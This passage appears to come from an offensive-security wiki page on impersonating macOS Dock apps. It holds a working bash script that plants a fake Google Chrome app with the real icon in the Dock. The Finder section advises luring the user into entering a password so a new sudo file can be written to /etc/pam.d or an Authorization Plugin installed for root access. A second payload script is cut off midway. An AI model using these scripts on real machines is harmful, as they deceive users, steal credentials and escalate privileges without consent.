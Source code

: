 ```bash
    <key>CFBundleVersion</key>
    <string>1.0</string>
    <key>CFBundleShortVersionString</key>
    <string>1.0</string>
    <key>CFBundleInfoDictionaryVersion</key>
    <string>6.0</string>
    <key>CFBundlePackageType</key>
    <string>APPL</string>
    <key>CFBundleIconFile</key>
    <string>app</string>
</dict>
</plist>
EOF

# Copy icon from Google Chrome
cp /Applications/Google\ Chrome.app/Contents/Resources/app.icns /tmp/Google\ Chrome.app/Contents/Resources/app.icns

# Add to Dock
defaults write com.apple.dock persistent-apps -array-add '<dict><key>tile-data</key><dict><key>file-data</key><dict><key>_CFURLString</key><string>/tmp/Google Chrome.app</string><key>_CFURLStringType</key><integer>0</integer></dict></dict></dict>'
sleep 0.1
killall Dock
```

{{#endtab}}

{{#tab name="Finder Impersonation"}}
Some suggestions:

- You **cannot remove Finder from the Dock**, so if you are going to add it to the Dock, you could put the fake Finder just next to the real one. For this you need to **add the fake Finder entry at the beginning of the Dock array**.
- Another option is to not place it in the Dock and just open it, "Finder asking to control Finder" is not that weird.
- Another options to **escalate to root without asking** the password with a horrible box, is make Finder really ask for the password to perform a privileged action:
  - Ask Finder to copy to **`/etc/pam.d`** a new **`sudo`** file (The prompt asking for the password will indicate that "Finder wants to copy sudo")
  - Ask Finder to copy a new **Authorization Plugin** (You could control the file name so the prompt asking for the password will indicate that "Finder wants to copy Finder.bundle")

```bash
#!/bin/sh

# THIS REQUIRES Finder TO BE INSTALLED (TO COPY THE ICON)
# If you want to removed granted TCC permissions: > delete from access where client LIKE '%finder%';

rm -rf /tmp/Finder.app/ 2>/dev/null

# Create App structure
mkdir -p /tmp/Finder.app/Contents/MacOS
mkdir -p /tmp/Finder.app/Contents/Resources

# Payload to execute
cat > /tmp/Finder.app/Contents/MacOS/Finder.c <<EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    char *cmd = "open /System/Library/CoreServices/Finder.app & "
                "sleep 2; "
```